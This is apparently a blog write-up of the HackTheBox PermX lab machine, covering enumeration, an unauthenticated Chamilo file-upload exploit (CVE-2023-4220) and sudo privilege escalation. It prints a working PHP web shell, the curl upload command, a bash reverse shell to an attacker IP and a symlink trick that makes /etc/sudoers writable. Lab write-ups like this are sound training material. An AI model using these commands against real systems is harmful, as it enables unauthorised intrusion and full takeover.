 ![](https://miro.medium.com/v2/resize:fit:875/1*uZ9qFbGYar4afo8n_rQeQA.png)

Hello friends and welcome again, so today's topic is a walkthrough for the Permx machine from HTB, let’s get started!

# Enumeration and Findings

First I ran the Nmap to scan our machine:

![](https://miro.medium.com/v2/resize:fit:875/1*WKU5xmWMftpv0tZLe19hjg.png)

so we have SSH open and port 8 TCP with Apache installed, Apache is a good target for us in these situations so I went ahead and tried to visit our domain `permx.htb` but first, let’s add it to our `/etc/hosts` file

![](https://miro.medium.com/v2/resize:fit:875/1*YAY_S7dAxWExAcRyUlnclg.png)

going through the app we can tell it’s a static website

![](https://miro.medium.com/v2/resize:fit:875/1*VWJ_6Ku-kr06zj7JlwsROw.png)

so I started fuzzing the **Vhosts**

![](https://miro.medium.com/v2/resize:fit:875/1*_slx4mXyBwvGgt4Pjv6_Yg.png)

and here we have 2 subdomains (www, lms) the lms one is an admin login panel

![](https://miro.medium.com/v2/resize:fit:875/1*9eLlsGmCSbVWri6kPjOxVQ.png)

at this point, there is much to talk about

at the bottom right of the page, I found the admin email and name: `admin@permx.htb` I took note of it maybe we will use it as we are already on an ADMIN login page, who knows  
but no actually it’s not that easy, this finding is useless at this machine😅

I was about to start fuzzing again for directories and files but I checked the `/robots.txt` first and it’s looking good

![](https://miro.medium.com/v2/resize:fit:875/1*koMVL_s6dDAO_Rc_IQcw9g.png)

we can find many routes, by visiting the documentation we know some info as the exact version of Chamilo

![](https://miro.medium.com/v2/resize:fit:875/1*kSNa_8C9wDVh1twj9_LSPw.png)

# Exploitation

so I started searching for any CVE or exploits for it and found this one [Chamilo-CVE-2023–4220-Exploit](https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit) It’s about Unauthenticated Big Upload File Remote Code Execution

tried to use the automated bash script at the exploit with the [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell)

`sudo ./CVE-2023-4220.sh -f /home/kite/Downloads/php-reverse-shell.php -h http://lms.permx.htb/ -p 4444`

and set up a netcat listener `nc -nlvp 4444` and here we go!

![](https://miro.medium.com/v2/resize:fit:875/1*AtZQftsGLRpQJmoMk1uEAg.png)

but the shell has a problem and it doesn’t work as u see, but it has been uploaded successfully

![](https://miro.medium.com/v2/resize:fit:875/1*GFzsu0SYilI5po8FfYlBUg.png)

so let’s try it manually using this [simple backdoor](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php) putting it into the “shell.php” file:

```
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->  
  
<?php  
  
if(isset($_REQUEST['cmd'])){  
        echo "<pre>";  
        $cmd = ($_REQUEST['cmd']);  
        system($cmd);  
        echo "</pre>";  
        die;  
}  
  
?>  
  
Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd  
  
<!--    http://michaeldaw.org   2006    -->
```
and executing this command:

`curl -F 'bigUploadFile=@shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'`

let’s test it by executing the id command

`http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?cmd=id`

![](https://miro.medium.com/v2/resize:fit:875/1*Cn2qP3rZ-rVCh7gvosEURA.png)

works fine

let’s inject our reverse shell `bash -c ‘bash -i >& /dev/tcp/10.10.16.66/4444 0>&1’`

but URL encoded: `bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.66%2F4444%200%3E%261%27`

`http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.66%2F4444%200%3E%261%27`

and then setup netcat `nc -nlvp 4444` listener and it worked fine

![](https://miro.medium.com/v2/resize:fit:875/1*TCFRxqus-muHC1l3ivVWmQ.png)

# Privilege Escalation

trying to upgrade the shell to be interactive tty

python3 -c 'import pty;pty.spawn("/bin/bash")                            
export TERM=xterm

we can download `linpeas.sh` to `/var/www/html`

![](https://miro.medium.com/v2/resize:fit:520/1*Hr7QBoOQYysRTyK9BQdc6g.png)

2 users on the system

![](https://miro.medium.com/v2/resize:fit:875/1*yt1pu9vwA2wy8uWlZqhg2w.png)

tried this pass with the mtz user and it worked!  
I closed this session and used SSH to connect since it’s better and we got the first user

![](https://miro.medium.com/v2/resize:fit:875/1*iUvHTJf_WFdrgvgVZmtr9w.png)

![](https://miro.medium.com/v2/resize:fit:875/1*ZTMs0mZpJAo9T6nUbCSG6g.png)

trying to get the root user I checked what I could do with sudo: `sudo -l`

![](https://miro.medium.com/v2/resize:fit:875/1*7y3fVZxZDU-U4WZHFu50Xw.png)

we can notice the `/opt/acl.sh` file ==that== we can run with no password:

```
#!/bin/bash  
  
if [ "$#" -ne 3 ]; then  
    /usr/bin/echo "Usage: $0 user perm file"  
    exit 1  
fi  
  
user="$1"  
perm="$2"  
target="$3"  
  
if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then  
    /usr/bin/echo "Access denied."  
    exit 1  
fi  
  
# Check if the path is a file  
if [ ! -f "$target" ]; then  
    /usr/bin/echo "Target must be a file."  
    exit 1  
fi
```

this script takes the user, permissions, and the target file as parameters and changes permissions for this file, but the target file has to be in our home folder

So let’s just make a symbolic link to the sudoers file and change our permissions on this file to read/write

ln -s /etc/sudoers Sir_Reda  
sudo /opt/acl.sh mtz rw /home/mtz/Sir_Reda

after granting our user ALL privileges

![](https://miro.medium.com/v2/resize:fit:460/1*heQymUPi-BqxBwC5ddIXvg.png)

then sudo su to root user

![](https://miro.medium.com/v2/resize:fit:875/1*TuzMPjznGT9haUd7PAPhtg.png)

that’s it for today If you have any questions, You can reach me through my social caves:

Twitter(X): [https://twitter.com/HunterXReda](https://twitter.com/HunterXReda)  
Linkedin: [https://www.linkedin.com/in/0xhunter/](https://www.linkedin.com/in/0xhunter/)  
Facebook: [https://www.facebook.com/0xHunterr](https://www.facebook.com/0xHunterr)
